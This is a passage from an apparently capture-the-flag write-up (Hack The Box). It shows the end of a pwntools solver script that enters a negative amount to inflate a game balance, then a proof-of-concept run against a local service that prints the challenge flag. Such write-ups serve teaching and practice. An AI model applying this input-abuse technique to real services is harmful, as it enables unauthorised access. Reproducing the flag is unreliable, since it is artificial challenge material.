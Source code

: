```python
	# Increase money in order for claim to be called.
	sla('Exit.', '2')
	sla('?', '-100')


def claim():
	# Get flag.
	sla('Exit.', '3')
	inter()

def pwn():

	generate()
	play()
	claim()

if __name__ == '__main__':
	pwn()
```

#### PoC: 
```sh
$ ./solver.py 
[+] Opening connection to 172.17.0.1 on port 1337: Done
[+] Generating key..: Done
[*] Switching to interactive mode


Mission Complete!! ✔

HTB{u_ov3rwr0t3_th3_s3cr3t_p455phr4s3}
[*] Got EOF while reading in interactive
```

